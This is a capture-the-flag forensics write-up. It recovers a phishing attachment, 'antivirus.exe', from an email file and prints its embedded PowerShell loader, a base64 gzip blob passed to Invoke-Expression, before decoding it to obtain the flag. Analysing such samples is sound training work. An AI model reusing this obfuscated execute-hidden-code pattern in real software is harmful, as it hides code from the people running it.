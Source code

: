 # Computer Has Virus [300 Pts]

**Category:** Forensics

**Solves:** -

## Description
> Help! I just fell victim to a phishing attack! I have attached the email they sent me. See if you can recover their secrets!

## Solution

We know that if we open the `URGENT.eml` file, we can find that there is an attachment named `antivirus.exe`.

We can try to extract the `.eml` file using `munpack` to get the file.

After getting `antivirus.exe`, we can try to examine the file using `strings` and find something interesting

```
!This program cannot be run in DOS mode.
JU$g
.text
`.rsrc
@.reloc
*b(!
*B(,
Yh}
1P      os
1&      os
$compressed = 'H4sIAAAAAAAA/1TNQWvyQBDG8Xs+xRgCrx4SFW+B8EJFtIcSMA1SSglxHZOlyW66+6xtEL97iVhpr8P8n19wbMqKEvKXLw/pdn3OFsKZOfoCtZm5qi7Svb1d5rZQMxSnhekLO7wtRhffC1gJSug16y24jXa8jzZAl0M2Ev1bHOemWSmhDzy+WhPyApSmYuSmGeAa6OLp1FkhcOSvo2xgSkitIqHb6f3A/4c6GTifPJiezh4RUWDYdlpZpoQe1Um/c7jj/ZY/HFtQmBtJv7zwiVHrA61Xz9d6ZyQ4TB06B/J/pmIKxvfdKEMJZ5f6wBOfvAuJEqK+6X/7fEPpZkSZbhm1VNU/S59Gq2o0dN53AAAA//+hRs8SawEAAA=='; $bytes = [System.Convert]::FromBase64String($compressed); $stream = New-Object IO.MemoryStream(, $bytes); $decompressed = New-Object IO.Compression.GzipStream($stream, [IO.Compression.CompressionMode]::Decompress); $reader = New-Object IO.StreamReader($decompressed); $obfuscated = $reader.ReadToEnd(); Invoke-Expression $obfuscated
BSJB
v4.0.30319
```

There are compressed variables that are in base64 format:

`H4sIAAAAAAAA/1TNQWvyQBDG8Xs+xRgCrx4SFW+B8EJFtIcSMA1SSglxHZOlyW66+6xtEL97iVhpr8P8n19wbMqKEvKXLw/pdn3OFsKZOfoCtZm5qi7Svb1d5rZQMxSnhekLO7wtRhffC1gJSug16y24jXa8jzZAl0M2Ev1bHOemWSmhDzy+WhPyApSmYuSmGeAa6OLp1FkhcOSvo2xgSkitIqHb6f3A/4c6GTifPJiezh4RUWDYdlpZpoQe1Um/c7jj/ZY/HFtQmBtJv7zwiVHrA61Xz9d6ZyQ4TB06B/J/pmIKxvfdKEMJZ5f6wBOfvAuJEqK+6X/7fEPpZkSZbhm1VNU/S59Gq2o0dN53AAAA//+hRs8SawEAAA==`

let's try again on CyberChef and see what we can find.

![flag](image.png)

### Flag

`CYBORG{S3cur1ty_thr0ugh_Obscur1ty_1s_n0t_v3ry_s3cur3!}`